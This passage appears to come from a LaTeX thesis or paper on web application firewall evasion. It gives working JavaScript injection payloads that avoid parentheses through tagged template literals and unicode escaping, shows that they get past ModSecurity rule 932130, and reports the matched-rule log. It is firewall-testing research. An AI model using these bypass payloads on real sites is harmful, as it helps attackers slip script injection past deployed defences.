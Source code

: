 \subsubsection{Avoiding ()}
\label{sec:avoidingbypassA}
In the context of testing firewall evasion techniques, the author faced the question if it was possible to create payloads without  \verb|()|. Those payloads still need to be valid and bypass the waf.
Considering the bypassing payload from \ref{sec:funconstrconbypass}, opening and closing \verb|()| can be substituted with Tagged Template Literals. This caused another firewall rule to trigger:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=avoiding () blocked, label={lst:avoiding () blocked}]
<payload>[]['constructor']['constructor']`a${'var s = "secret";promp' + 't`something${s}`'}```</payload>

<message>"Remote Command Execution: Unix Shell Expression Found"</message>
<file>"/rules/REQUEST-932-APPLICATION-ATTACK-RCE.conf"</file>
<fileDetails>[line "291"] [id "932130"]<fileDetails>
<MatchedData>"${s}"</MatchedData>
\end{lstlisting}

Evading rule \verb|932130| was possible by using a form of unicode escaping in JavaScript that was introduced with ES6 and differs from the unicode escaping in JSON. The character sequence \verb|${s}| was replaced with \verb|\u{0024}{s}|. This made the payload bypass the ModSecurity firewall. The bypassing payload:

\begin{lstlisting}[style=basicStyle, caption=avoiding () bypass payload using square bracket notation]
[]['constructor']['constructor']`a${'var s = "secret";promp' + 't`something\u{0024}{s}`'}```
\end{lstlisting}

Similarly, using the dot-syntax instead of bracket-access, the following payload bypasses the firewall:

\begin{lstlisting}[style=basicStyle, caption=avoiding () bypass payload using dot notation]
[].constructor.constructor`a${'var s = "secret";promp' + 't`something\u{0024}{s}`'}```
\end{lstlisting}

It is conspicuous that the payload could bypass the firewall with only the later \verb|$| of the two placeholders: \verb|${expression}| escaped.
This seems to be a bug in the WAF or the ruleset.
It is also what enables the above payload to be valid.
A substitution of the earlier \verb|$| with an escaped variant is not possible.
JavaScript does not recognize the placeholder in the Template Literal without the explicit character \verb|$|.
Substitution of the second placeholder is possible because it happens inside a string containing the Tagged Template Literal.

